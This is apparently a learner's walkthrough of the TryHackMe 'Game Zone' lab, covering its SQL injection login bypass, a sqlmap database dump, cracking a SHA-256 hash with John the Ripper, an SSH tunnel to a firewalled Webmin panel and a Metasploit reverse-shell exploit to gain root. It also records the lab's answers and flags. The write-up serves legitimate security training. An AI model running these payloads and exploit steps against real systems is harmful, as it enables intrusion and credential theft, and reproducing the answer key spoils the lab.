



# [Game Zone](https://tryhackme.com/r/room/gamezone)


Learn to hack into this machine. Understand how to use SQLMap, crack some passwords, reveal services using a reverse SSH tunnel and escalate your privileges to root!

## Task 1 - Deploy the vulnerable machine


This room will cover SQLi (exploiting this vulnerability manually and via SQLMap), cracking a users hashed password, using SSH tunnels to reveal a hidden service and using a metasploit payload to gain root privileges. 

### Answer the questions below

* Deploy the machine and access its web server.

	

* What is the name of the large cartoon avatar holding a sniper on the forum?
	
	`Agent 47`

	

## Task 2 - Obtain access via SQLi


In this task you will understand more about SQL (structured query language) and how you can potentially manipulate queries to communicate with the database.

### Answer the questions below

SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:

```
SELECT * FROM users WHERE username = :username AND password := password
```

In our GameZone machine, when you attempt to login, it will take your inputted values from your username and password, then insert them directly into the query above. If the query finds data, you'll be allowed to login otherwise it will display an error message.

* Here is a potential place of vulnerability, as you can input your username as another SQL query. This will take the query write, place and execute it.

Lets use what we've learnt above, to manipulate the query and login without any legitimate credentials.

If we have our username as admin and our password as: **' or 1=1 -- -** it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

* The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use **' or 1=1 -- -** as your username and leave the password blank.

* When you've logged in, what page do you get redirected to?

	`portal.php`

	

## Task 3 - Using SQLMap


SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.
Answer the questions below

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).


Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.


**-r** uses the intercepted request you saved earlier
**--dbms** tells SQLMap what type of database management system it is
**--dump** attempts to outputs the entire database

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

* In the users table, what is the hashed password?

	`ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14`

	* Intercept request on burpsuite
	
		

	* Create request file from burpsuite
	
		

	* Run sqlmap
	
		```
		sqlmap -r request.txt --dbms=mysql --dump
		```

		

* What was the username associated with the hashed password?

	`agent47`

* What was the other table name?

	`post`

	

## Task 4 - Cracking a password with JohnTheRipper


John the Ripper (JTR) is a fast, free and open-source password cracker. This is also pre-installed on all Kali Linux machines.

We will use this program to crack the hash we obtained earlier. JohnTheRipper is 15 years old and other programs such as HashCat are one of several other cracking programs out there. 

This program works by taking a wordlist, hashing it with the specified algorithm and then comparing it to your hashed password. If both hashed passwords are the same, it means it has found it. You cannot reverse a hash, so it needs to be done by comparing hashes.

### Answer the questions below

If you are using a low-powered laptop, you can deploy a high spec'd Kali Linux machine on TryHackMe and control it in your browser.


Deploy your own [here](https://tryhackme.com/room/kali)!

* Once you have JohnTheRipper installed you can run it against your hash using the following arguments:

	

	**hash.txt** - contains a list of your hashes (in your case its just 1 hash)
	**--wordlist** - is the wordlist you're using to find the dehashed value
	**--format** - is the hashing algorithm used. In our case its hashed using SHA256.

	Create file hash

	

* What is the de-hashed password?

	`videogamer124`

	```
	john hash.txt -w=/usr/share/wordlists/rockyou.txt --format=Raw-SHA256
	```

	

Now you have a password and username. Try SSH'ing onto the machine.

* What is the user flag?
	
	`649ac17b1480ac13ef1e4fa579dac95c`

	

## Task 5 - Exposing services with reverse SSH tunnels



Reverse SSH port forwarding specifies that the given port on the remote server host is to be forwarded to the given host and port on the local side.

**-L** is a local tunnel (YOU <-- CLIENT). If a site was blocked, you can forward the traffic to a server you own and view it. For example, if imgur was blocked at work, you can do **ssh -L 9000:imgur.com:80 user@example.com**. Going to localhost:9000 on your machine, will load imgur traffic using your other server.

-R is a remote tunnel (YOU --> CLIENT). You forward your traffic to the other server for others to view. Similar to the example above, but in reverse.
Answer the questions below

We will use a tool called **ss** to investigate sockets running on a host.

If we run **ss -tulpn** it will tell us what socket connections are running

|**Argument**|**Description**|
|------------|---------------|
|-t|Display TCP sockets|
|-u|Display UDP sockets|
|-l|Displays only listening sockets|
|-p|Shows the process using the socket|
|-n|Doesn't resolve service names|

* How many TCP sockets are running?
	
	`5`

	

We can see that a service running on port 10000 is blocked via a firewall rule from the outside (we can see this from the IPtable list). However, Using an SSH Tunnel we can expose the port to us (locally)!

From our local machine, run **ssh -L 10000:localhost:10000 <username>@<ip>**

Once complete, in your browser type "localhost:10000" and you can access the newly-exposed webserver.


* What is the name of the exposed CMS?

	`Webmin`

	

	

* What is the CMS version?

	`1.580`

	

## Task 6 - Privilege Escalation with Metasploit

Using the CMS dashboard version, use Metasploit to find a payload to execute against the machine.

### Answer the questions below

* What is the root flag?
	
	``

	* Searchsploit
	
		```
		search webmin
		```
	
		

	* Use exploit
	
		```
		use exploit/unix/webapp/webmin_show_cgi_exec
		set payload cmd/unix/reverse
		set RHOSTS localhost
		set USERNAME agent47
		set PASSWORD videogamer124
		set SSL false
		set LHOST tun0
		exploit
		```

		

	* Interact with sessions
	
		

	* Run python to excecute bash shell & Get the flag
	
		```
		python -c ‘import pty; pty.spawn(“/bin/bash”)’
		```

		
	
